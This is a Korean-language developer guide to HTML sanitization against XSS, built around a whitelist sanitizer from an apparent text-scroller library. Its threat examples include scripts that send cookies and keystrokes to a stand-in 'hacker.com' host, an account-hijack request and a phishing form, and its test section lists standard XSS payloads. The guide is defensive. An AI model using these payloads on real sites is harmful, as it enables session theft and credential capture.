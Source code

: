 # HTML 새니타이징(Sanitization) - XSS 공격 방어

## 개요

HTML 새니타이징은 사용자 입력이나 외부 데이터에서 위험한 HTML/JavaScript 코드를 제거하거나 무력화하여 XSS(Cross-Site Scripting) 공격을 방지하는 보안 기법입니다.

## 문제: XSS(Cross-Site Scripting) 공격

웹 애플리케이션에서 사용자가 제공한 HTML을 그대로 렌더링하면 악의적인 스크립트가 실행될 수 있습니다.

```javascript
// 위험한 코드
element.innerHTML = userInput; // userInput에 <script>alert('hacked')</script> 포함 가능
```

### 악의적인 스크립트란?

사용자의 의도와 무관하게 해를 끼치는 JavaScript 코드입니다.

```javascript
// 1. 쿠키 탈취 (세션 하이재킹)
<script>
  fetch('http://hacker.com?cookie=' + document.cookie)
</script>

// 2. 계정 정보 변경
<script>
  fetch('/api/change-email', {
    method: 'POST',
    body: JSON.stringify({email: 'hacker@evil.com'})
  })
</script>

// 3. 키로깅 (입력 정보 훔치기)
<script>
  document.addEventListener('keypress', e => {
    fetch('http://hacker.com?key=' + e.key)
  })
</script>

// 4. 피싱 페이지 삽입
<script>
  document.body.innerHTML = '<form>로그인: <input type="password"></form>'
</script>
```

이런 스크립트가 게시글, 댓글 등 사용자 입력을 통해 웹사이트에 삽입되면, 그 페이지를 보는 다른 사용자들의 브라우저에서 실행되어 정보를 탈취하거나 부정한 행위를 수행합니다.

## 해결: HTML 새니타이징

### 구현 방법

infinite-text-scroller 라이브러리의 구현 예시 (`src/index.js:45-84`):

```javascript
static #sanitizeHTML = (html) => {
  // 1. 허용할 태그 목록 정의
  const allowedTags = ['b', 'strong', 'i', 'em', 'u', 'span', 'br', 'mark'];
  const allowedAttrs = ['style', 'class'];

  // 2. 임시 DOM 요소에 HTML 파싱
  const temp = document.createElement('div');
  temp.innerHTML = html;

  // 3. TreeWalker로 모든 요소 순회
  const walker = document.createTreeWalker(
    temp,
    NodeFilter.SHOW_ELEMENT,
    null,
    false
  );

  const nodesToRemove = [];
  let node;

  while (node = walker.nextNode()) {
    const tagName = node.tagName.toLowerCase();

    // 4. 허용되지 않은 태그 제거 대상에 추가
    if (!allowedTags.includes(tagName)) {
      nodesToRemove.push(node);
      continue;
    }

    // 5. 허용되지 않은 속성 제거
    const attrs = Array.from(node.attributes);
    attrs.forEach(attr => {
      if (!allowedAttrs.includes(attr.name.toLowerCase())) {
        node.removeAttribute(attr.name);
      }
    });
  }

  // 6. 위험한 태그를 텍스트 노드로 치환
  nodesToRemove.forEach(node => {
    const text = document.createTextNode(node.textContent);
    node.parentNode.replaceChild(text, node);
  });

  return temp.innerHTML;
};
```

### 주요 원리

1. **화이트리스트 방식**: 안전한 태그/속성만 허용 (블랙리스트보다 안전)
2. **DOM 파싱**: 브라우저의 HTML 파서를 활용하여 정확한 파싱
3. **TreeWalker 활용**: 모든 요소를 체계적으로 순회
4. **위험 요소 치환**: 제거 대신 텍스트 노드로 변환 (컨텐츠 보존)

### 사용 예시

```javascript
// 라이브러리 내부에서 사용 (src/index.js:131)
if (config.html) {
  textSpan.innerHTML = InfiniteTextScroller.#sanitizeHTML(config.html);
} else {
  textSpan.textContent = text;
}

// updateHtml 메서드에서도 사용 (src/index.js:452)
const sanitized = InfiniteTextScroller.#sanitizeHTML(newHtml);
```

## 실전 적용 시나리오

### ❌ 위험한 입력

```html
<script>alert('XSS')</script>
<img src=x onerror="alert('XSS')">
<a href="javascript:alert('XSS')">Click</a>
```

### ✅ 새니타이징 후

```html
alert('XSS')
x
Click
```

위험한 태그와 속성이 제거되고 텍스트만 남습니다.

### ✅ 안전한 입력

```html
<strong>중요</strong> 내용입니다 <em>강조</em>
<span style="color: red;">빨간 텍스트</span>
```

허용된 태그와 속성은 그대로 유지됩니다.

## 보안 고려사항

### 1. 화이트리스트 관리

```javascript
// 필요 최소한의 태그만 허용
const allowedTags = ['b', 'strong', 'i', 'em', 'u', 'span', 'br', 'mark'];

// onclick, onerror 등 이벤트 핸들러 속성 차단
const allowedAttrs = ['style', 'class']; // href, src 제외
```

### 2. CSS 인젝션 방지

현재 구현은 `style` 속성을 허용하지만, 더 강력한 보안이 필요한 경우:

```javascript
// CSS 속성 값 검증
if (attr.name === 'style') {
  const dangerousPatterns = /expression|javascript|behavior/i;
  if (dangerousPatterns.test(attr.value)) {
    node.removeAttribute('style');
  }
}
```

### 3. textContent vs innerHTML

```javascript
// 안전: 모든 입력을 텍스트로 처리
element.textContent = userInput;

// 주의: HTML 파싱 (새니타이징 필수)
element.innerHTML = sanitizeHTML(userInput);
```

## 대안 방법

### 1. DOMPurify 라이브러리

```javascript
import DOMPurify from 'dompurify';
const clean = DOMPurify.sanitize(dirty);
```

### 2. 템플릿 리터럴 (안전)

```javascript
// React, Vue 등의 프레임워크는 자동 이스케이핑
<div>{userInput}</div> // XSS 안전
<div dangerouslySetInnerHTML={{__html: sanitize(userInput)}} /> // 명시적 표시
```

## 테스트 방법

```javascript
// XSS 페이로드 테스트
const payloads = [
  '<script>alert(1)</script>',
  '<img src=x onerror=alert(1)>',
  '<svg onload=alert(1)>',
  '<iframe src=javascript:alert(1)>',
  '"><script>alert(1)</script>'
];

payloads.forEach(payload => {
  const result = sanitizeHTML(payload);
  console.assert(!result.includes('<script'), 'Script tag not removed!');
  console.assert(!result.includes('onerror='), 'Event handler not removed!');
});
```

## 참고 자료

- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [DOMPurify Documentation](https://github.com/cure53/DOMPurify)
- [MDN: TreeWalker](https://developer.mozilla.org/en-US/docs/Web/API/TreeWalker)
- infinite-text-scroller 구현: `/Users/a220330001/Git/Personal/infinite-text-scroller/src/index.js:45-84`
